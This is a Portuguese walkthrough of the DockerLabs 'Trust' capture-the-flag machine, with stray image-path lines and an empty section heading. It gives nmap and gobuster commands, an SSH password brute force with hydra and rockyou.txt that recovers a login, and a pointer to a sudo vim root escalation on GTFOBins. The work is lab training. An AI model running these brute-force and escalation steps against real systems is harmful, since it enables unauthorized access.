


maq.trust
TRUST DOCKERLABS
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Ao baixar esta máquina e descompactar o arquivo, neste caso vemos 2 arquivos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -sS -sV -sC --open -p- -T5 -n -Pn
Verificando as portas podemos ver que temos duas postas abertas a 22 e a 80.

EXPLICAÇÃO DO COMANDO NMAP

vamos navegar na porta 80
vamos fazer uma varredura com gobuster para procurar pastas ocultas.
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
vamos entrar na pasta secret.php
possível usuário mario. http://172.18.0.2/secret.php
irei fazer um ataque de força bruta com hydra
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2:22
usuário: mario
senha: chocolate
ssh mario@172.18.0.2
buscar por privilégios sudo -l

Se formos agora para a página gtfobins podemos ver uma maneira de tirar proveito deste binário.
https://gtfobins.github.io/gtfobins/vim/#sudo
conseguir o acesso root da máquina
bobmarley